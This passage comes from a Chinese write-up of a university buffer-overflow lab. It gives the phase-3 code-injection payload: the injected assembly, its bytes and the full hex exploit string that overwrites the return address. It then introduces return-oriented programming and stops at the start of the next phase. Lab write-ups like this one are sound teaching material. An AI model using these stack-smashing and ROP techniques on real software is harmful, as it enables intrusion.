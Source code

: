 

### 第三关

这和第二关的区别是，这里需要把 %rdi 赋值为 "3d9549ca" 字符串的首地址，而这个 "3d9549ca" 也需要我们在栈区上注入；

根据实验文档的提示，`调用*hexmatch*和*strncmp*函数时，会将数据压入栈中，覆盖*getbuf*使用的缓冲区的内存，你需要很小心把你的cookie字符串表示放在哪里`。

如果我们把字符串存在 getbuf 的缓冲区中，则 hexmatch 函数中进行比较的时候，%rdi 寄存器存储的地址依然在 getbuf 缓冲区，但是这是我们的 cookie 字符串已经被 hexmatch 函数破坏了；

因此我们需要将 cookie 字符串注入到一个不会被影响的地方。

经过断点调试，发现 getbuf 栈帧开始的 24 个字节，会被 hexmatch 和 strncmp 函数破坏，因此我们只需将 cookie 字符串存到这个区域外，且不能和 getbuf 的 return address 区冲突即可。

那么不妨存到 `0x55654cb8`，我们将 cookie `3d9549ca` 转为对应 ASCII 码的十六进制表示：`33 64 39 35 34 39 63 61`。

注入的代码：

```assembly
pushq $0x4017ad # touch3
movq $0x55654cb8, %rdi
req
```

```assembly
   0:	68 ad 17 40 00       	pushq  $0x4017ad
   5:	48 c7 c7 b8 4c 65 55 	mov    $0x55654cb8,%rdi
   c:	c3                   	retq   
```

`68 ad 17 40 00 48 c7 c7 b8 4c 65 55 c3`

```c
68 ad 17 40 00 48 c7 c7 b8 4c 65 55 c3 00 00 00 00 00 00 00 00 00 00 00
98 4c 65 55 00 00 00 00
33 64 39 35 34 39 63 61
```



## ROP

由于采取了下面两种防护技术：

1. 采用了随机化，每次运行栈的位置都不同。所以无法决定你的注入代码应该放在哪里。
2. 将保存栈的内存区域设置为不可执行，所以即使你能把注入的代码的起始地址放到程序计数器中，程序也会报段错误失败。

查看栈顶地址变得没有意义了，因为每次都不一样。但是只有 Stack 栈底的地址会随机化，Text 区的函数入口们的地址并不会变化，因此可以将 return address 改为这些地址，利用多个片段汇编代码，实现我们的攻击逻辑。

下面是一些常用的 gadget：

![图2](https://course.educg.net/userfiles/markdown/exp/2022_1/748ll1643203261.jpg)

### 第二关

我们能使用的指令如下：
